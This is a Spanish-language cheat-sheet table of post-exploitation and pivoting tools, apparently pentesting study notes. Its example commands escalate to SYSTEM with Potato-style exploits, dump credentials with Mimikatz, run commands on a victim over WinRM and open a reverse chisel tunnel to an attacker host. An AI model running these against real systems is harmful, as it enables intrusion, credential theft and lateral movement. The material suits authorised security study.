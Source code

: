 # Tabla de Herramientas de Post-Explotación y Pivoting

| Herramienta | Descripción | Tipo de Herramienta | Sistema de instalación | Instalación | Ejemplo de Uso Realista | Privilegios requeridos |
|-------------|-------------|---------------------|------------------------|-------------|-------------------------|------------------------|
| **PrintSpoofer.exe / PrintSpoofer64.exe** | Abusa del servicio `Print Spooler` y el permiso `SeImpersonatePrivilege` para escalar a SYSTEM. | Escalación de privilegios local | Windows | Descargar desde repositorios públicos (ej. GitHub) o compilar en Visual Studio. | `PrintSpoofer64.exe -i -c cmd.exe` (Abre shell como SYSTEM) | Usuario con `SeImpersonatePrivilege` habilitado. |
| **JuicyPotato.exe** | Variante de exploit que abusa de COM y permisos especiales para escalar a SYSTEM. | Escalación de privilegios local | Windows | Descargar binario o compilar desde código fuente. | `JuicyPotato.exe -l 1337 -p cmd.exe -t *` (Eleva a SYSTEM) | `SeImpersonatePrivilege` o `SeAssignPrimaryTokenPrivilege`. |
| **GodPotato.exe / GodPotato-NEI2.exe** | Variante mejorada de JuicyPotato que funciona en versiones más recientes de Windows. | Escalación de privilegios local | Windows | Descargar binario listo desde GitHub. | `GodPotato.exe -cmd "cmd /c whoami"` | `SeImpersonatePrivilege`. |
| **RogueWinRM.exe** | Permite ejecutar comandos remotos como SYSTEM a través de WinRM cuando se tienen privilegios. | Ejecución remota | Windows | Descargar binario desde GitHub o compilar. | `RogueWinRM.exe -H <victima_ip> -u usuario -p contraseña -c "powershell.exe"` | WinRM habilitado y credenciales válidas. |
| **sh6789.exe** | Script/binario personalizado para ejecución de payloads en Windows. | Ejecución de payloads | Windows | Copiar en la máquina víctima. | `sh6789.exe` | Depende del payload; normalmente requiere ejecución local. |
| **BloodHound** | Herramienta de análisis de Active Directory que permite descubrir rutas de ataque. | Reconocimiento y escalación lateral | Windows/Linux | Instalar desde GitHub (`npm install` para interfaz gráfica, `SharpHound` para recolección). | `SharpHound.exe -c All` y luego analizar con GUI. | Usuario con acceso al dominio. |
| **Mimikatz** | Extrae credenciales en texto plano, hashes y tickets Kerberos desde memoria. | Post-explotación / extracción de credenciales | Windows | Descargar desde GitHub o binarios precompilados. | `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"` | Usuario con privilegio `SeDebugPrivilege` (normalmente admin local). |
| **Impacket** | Conjunto de scripts Python para interactuar con protocolos de red (SMB, RDP, etc.). | Post-explotación / movimiento lateral | Linux | `pip install impacket` | `psexec.py usuario@victima` | Credenciales válidas y acceso a puertos necesarios. |
| **Kerbrute** | Fuerza bruta o enumera usuarios en Kerberos. | Reconocimiento | Windows/Linux | Descargar desde GitHub (Go) o binario precompilado. | `kerbrute userenum -d dominio.local users.txt` | No requiere privilegios especiales; solo acceso a KDC (puerto 88). |
| **CrackMapExec (CME)** | Automatiza pruebas en redes Windows (SMB, WinRM, RDP). | Post-explotación / movimiento lateral | Linux | `pipx install crackmapexec` | `cme smb 192.168.1.0/24 -u usuario -p contraseña` | Credenciales válidas. |
| **smbclient** | Cliente SMB para acceder a recursos compartidos. | Acceso a compartidos SMB | Linux | `sudo apt install smbclient` | `smbclient //192.168.1.10/compartido -U usuario` | Credenciales válidas o acceso anónimo. |
| **rpcclient** | Cliente RPC para consultar información de Windows. | Enumeración | Linux | `sudo apt install samba-common-bin` | `rpcclient -U "" -N 192.168.1.10` | Acceso anónimo o credenciales válidas. |
| **proxychains** | Encadena conexiones a través de proxies/Tor. | Pivoting / tunneling | Linux | `sudo apt install proxychains` | `proxychains nmap -Pn 10.10.10.10` | No requiere privilegios especiales. |
| **chisel** | Túnel TCP/UDP rápido sobre HTTP. | Pivoting / tunneling | Windows/Linux | Descargar desde GitHub o binario precompilado. | `chisel server -p 8000 --reverse` (atacante) y `chisel client atacante_ip:8000 R:8080:127.0.0.1:80` (víctima) | Ejecución en ambos extremos; no requiere privilegios especiales. |
